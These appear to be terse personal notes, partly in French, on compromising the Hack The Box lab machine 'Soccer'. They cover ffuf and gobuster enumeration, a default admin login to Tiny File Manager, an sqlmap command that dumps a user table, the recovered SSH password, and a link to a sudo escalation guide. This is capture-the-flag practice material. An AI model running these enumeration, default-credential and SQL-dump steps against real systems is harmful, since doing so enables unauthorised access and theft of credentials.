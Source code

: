 # ip 10.10.11.194

# find subdomains
ffuf -u http://soccer.htb/ -w ../../../SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.soccer.htb" | grep 200
ffuf -u http://soccer.htb/ -w ../../../SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host : FUZZ.soccer.htb -fs 178

# enum
gobuster dir -u soccer.htb -w SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20

# lien 
http://soccer.htb/tiny/tinyfilemanager.php

# faille 
H3k / tiny File Manager 2.4.3

# identifiant
user : admin
pass : admin@123

# etc/hosts
soc-player.soccer.htb

# lien 
http://soc-player.soccer.htb/

# websocket 
ws://soc-player.soccer.htb:9091

# dump tables
sqlmap -u "http://localhost:9091/?id=64767" -T accounts -D soccer_db --dump --batch

# info table accounts
id,email,password,username
1324,player@player.htb,PlayerOftheMatch2022,player

# connection ssh
user : ssh player@10.10.11.194
pass : PlayerOftheMatch2022

# root dtsat tuto
https://exploit-notes.hdks.org/exploit/sudo-privilege-escalation/